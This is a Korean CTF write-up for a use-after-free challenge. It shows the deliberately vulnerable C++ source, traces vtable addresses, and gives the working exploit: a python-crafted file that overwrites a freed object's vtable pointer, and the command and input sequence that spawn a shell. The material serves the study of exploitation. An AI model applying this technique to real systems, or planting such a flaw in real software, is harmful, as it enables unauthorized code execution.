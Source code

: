 
\#include \<fcntl.h></br>
\#include \<iostream></br>
\#include \<cstring></br>
\#include \<cstdlib></br>
\#include \<unistd.h></br>
using namespace std;</br>

class Human{</br>private:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void give_shell(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("/bin/sh");</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>
protected:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;int age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;string name;</br>
public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "My name is " << name << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am " << age << " years old" << endl</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>
};</br>

class Man: public Human{</br>
public:</br>
	Man(string name, int age){</br>
		this->name = name;</br>
		this->age = age;</br>
        }</br>
        virtual void introduce(){</br>
		Human::introduce();</br>
                cout << "I am a nice guy!" << endl;</br>
        }</br>
};</br>

class Woman: public Human{</br>
public:</br>
        Woman(string name, int age){</br>
                this->name = name;</br>
                this->age = age;</br>
        }</br>
        virtual void introduce(){</br>
                Human::introduce();</br>
                cout << "I am a cute girl!" << endl;</br>
        }</br>
};</br>

int main(int argc, char* argv[]){</br>
	Human* m = new Man("Jack", 25);</br>
	Human* w = new Woman("Jill", 21);</br>

	size_t len;</br>
	char* data;</br>
	unsigned int op;</br>
	while(1){</br>
		cout << "1. use\n2. after\n3. free\n";</br>
		cin >> op;</br>

		switch(op){</br>
			case 1:</br>
				m->introduce();</br>
				w->introduce();</br>
				break;</br>
			case 2:</br>
				len = atoi(argv[1]);</br>
				data = new char[len];</br>
				read(open(argv[2], O_RDONLY), data, len);</br>
				cout \<< "your data is allocated" << endl;</br>
				break;</br>
			case 3:</br>
				delete m;</br>
				delete w;</br>
				break;</br>
			default:</br>
				break;</br>
		}</br>
	}</br>
</br>
	return 0;	</br>
}</br>
</br>

처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
